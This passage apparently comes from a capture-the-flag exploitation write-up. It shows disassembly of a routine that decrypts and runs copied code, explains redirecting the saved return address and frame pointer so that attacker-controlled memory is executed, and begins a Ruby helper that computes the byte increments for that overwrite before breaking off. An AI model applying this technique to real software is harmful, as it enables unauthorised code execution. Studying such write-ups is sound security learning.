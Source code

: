 <span class="Statement">.text</span>:<span class="Constant">004015</span><span class="Identifier">E6</span>                 <span class="Identifier">call</span>    <span class="Identifier">_memcpy</span>
<span class="Statement">.text</span>:<span class="Constant">004015</span><span class="Identifier">EB</span>                 <span class="Identifier">mov</span>     <span class="Identifier">rax</span>, [<span class="Identifier">rbp</span>+<span class="Identifier">addr</span>]
<span class="Statement">.text</span>:<span class="Constant">004015</span><span class="Identifier">EF</span>                 <span class="Identifier">mov</span>     <span class="Identifier">rdi</span>, <span class="Identifier">rax</span>
<span class="Statement">.text</span>:<span class="Constant">004015</span><span class="Identifier">F2</span>                 <span class="Identifier">call</span>    <span class="Identifier">decryptFunction</span>
<span class="Statement">.text</span>:<span class="Constant">004015</span><span class="Identifier">F7</span>                 <span class="Identifier">mov</span>     <span class="Identifier">rdx</span>, [<span class="Identifier">rbp</span>+<span class="Identifier">addr</span>]
<span class="Statement">.text</span>:<span class="Constant">004015</span><span class="Identifier">FB</span>                 <span class="Identifier">mov</span>     <span class="Identifier">rax</span>, [<span class="Identifier">rbp</span>+<span class="Identifier">var_20</span>]
<span class="Statement">.text</span>:<span class="Constant">004015</span><span class="Identifier">FF</span>                 <span class="Identifier">mov</span>     <span class="Identifier">rsi</span>, <span class="Identifier">rax</span>
<span class="Statement">.text</span>:<span class="Constant">00401602</span>                 <span class="Identifier">mov</span>     <span class="Identifier">edi</span>, <span class="Identifier">offset</span> <span class="Identifier">global_f</span>
<span class="Statement">.text</span>:<span class="Constant">00401607</span>                 <span class="Identifier">mov</span>     <span class="Identifier">eax</span>, <span class="Constant">0</span>
<span class="Statement">.text</span>:<span class="Constant">0040160</span><span class="Identifier">C</span>                 <span class="Identifier">call</span>    <span class="Identifier">rdx</span>
</pre>

Which allocates memory, copies code into it (<em>relative to rbp</em>, the frame pointer, which I eventually realized that we control!), decrypts it, and runs it. If we can change the return address to that line, and change rbp just enough that [rbp+src] points to memory we control, we're home free!

Now, to change 0x40160E (the normal return address) to 0x4015AA (the address I want), I had to increment the last byte 0xCA (0xAA - 0xE0) times, and increment the second-last byte once (0x16 - 0x15). I wrote a function called edit_memory() that would essentially do the math for you and increment the proper bytes:

<pre>
<span class="lnr"> 67 </span><span class="rubyDefine">def</span> <span class="Identifier">edit_memory</span>(from, to, location)
<span class="lnr"> 68 </span>  <span class="Comment"># Handle each of the 8 bytes, though in practice I think we only needed</span>
<span class="lnr"> 69 </span>  <span class="Comment"># the first two</span>
<span class="lnr"> 70 </span>  <span class="Constant">0</span>.upto(<span class="Constant">7</span>) <span class="Statement">do</span> |<span class="Identifier">i</span>|
<span class="lnr"> 71 </span>    <span class="Comment"># Get the before and after values for the current byte</span>
<span class="lnr"> 72 </span>    from_i = (from &gt;&gt; (<span class="Constant">8</span> * i)) &amp; <span class="Constant">0xFF</span>
<span class="lnr"> 73 </span>    to_i   = (to   &gt;&gt; (<span class="Constant">8</span> * i)) &amp; <span class="Constant">0xFF</span>
<span class="lnr"> 74 </span>
<span class="lnr"> 75 </span>    <span class="Comment"># As long as the bytes are different, add the current 'increment' character</span>
<span class="lnr"> 76 </span>    <span class="Statement">while</span>(from_i != to_i) <span class="Statement">do</span>
<span class="lnr"> 77 </span>      <span class="Comment"># If we already have the location from the shellcode or something, don't</span>
<span class="lnr"> 78 </span>      <span class="Comment"># repeat it</span>